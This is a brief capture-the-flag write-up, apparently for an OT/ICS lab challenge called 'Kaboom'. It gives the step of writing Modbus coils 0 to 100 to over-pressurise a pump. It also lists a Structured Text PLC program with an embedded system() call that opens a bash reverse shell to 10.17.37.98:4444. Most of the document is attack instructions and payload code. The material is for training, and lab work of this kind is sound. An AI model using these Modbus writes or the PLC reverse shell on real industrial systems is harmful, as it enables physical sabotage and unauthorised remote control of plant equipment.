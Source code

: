 ```yaml
---
title: Kaboom
categories: OT
tags: 
draft: true
completedDuringEvent: true
submitted: true
flags: THM{REDACTED}
---
```

> This challenge drops you into the shoes of the APT operator: With a single crafted Modbus, you over-pressurise the main pump, triggering a thunderous blow-out that floods the plant with alarms. While chaos reigns, your partner ghosts through the shaken DMZ and installs a stealth implant, turning the diversion’s echo into your persistent beachhead.

---

## Modbus

Write coils from address `0` to `100?` with values `1`.

## Ubuntu Access

```
PROGRAM prog0
  VAR
    var_in : BOOL;
    var_out : BOOL;
  END_VAR

  var_out := var_in;

  { system("bash -c 'bash -i >& /dev/tcp/10.17.37.98/4444 0>&1'"); }
END_PROGRAM


CONFIGURATION Config0

  RESOURCE Res0 ON PLC
    TASK Main(INTERVAL := T#50ms,PRIORITY := 0);
    PROGRAM Inst0 WITH Main : prog0;
  END_RESOURCE
END_CONFIGURATION
```
